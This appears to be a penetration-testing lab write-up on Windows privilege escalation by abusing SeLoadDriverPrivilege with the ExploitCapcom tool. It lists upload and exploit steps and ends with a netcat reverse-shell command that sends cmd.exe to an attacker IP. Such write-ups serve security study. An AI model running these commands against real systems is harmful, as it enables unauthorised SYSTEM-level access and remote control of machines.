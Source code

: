 ### Local enumeration

whoami /all

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeLoadDriverPrivilege         Load and unload device drivers Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

* This shows that <mark style="color:yellow;">SeLoadDriverPrivilege</mark> is <mark style="color:yellow;">enabled</mark> on this user

### PrivEsc vector

<mark style="color:yellow;">SeLoadDriverPrivilege</mark>&#x20;

### Exploitation

{% embed url="https://www.tarlogic.com/blog/abusing-seloaddriverprivilege-for-privilege-escalation/" %}

{% embed url="https://github.com/clubby789/ExploitCapcom/releases/download/1.0/ExploitCapcom.exe" %}
Exploit
{% endembed %}

1. Upload the exploit to the target
2. Upload nc.exe to the target
3. Execute the exploit with `./ExploitCapcom.exe`
4. Test exploit success with `./ExploitCapcom.exe EXPLOIT whoami`
5. Establish Netcat listener with `nc -lnvp 1337` on kali
6. Execute reverse shell with `./ExploitCapcom.exe EXPLOIT "nc.exe -e cmd.exe 10.10.16.17 1337"`

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption><p>SYSTEM</p></figcaption></figure>

### Research
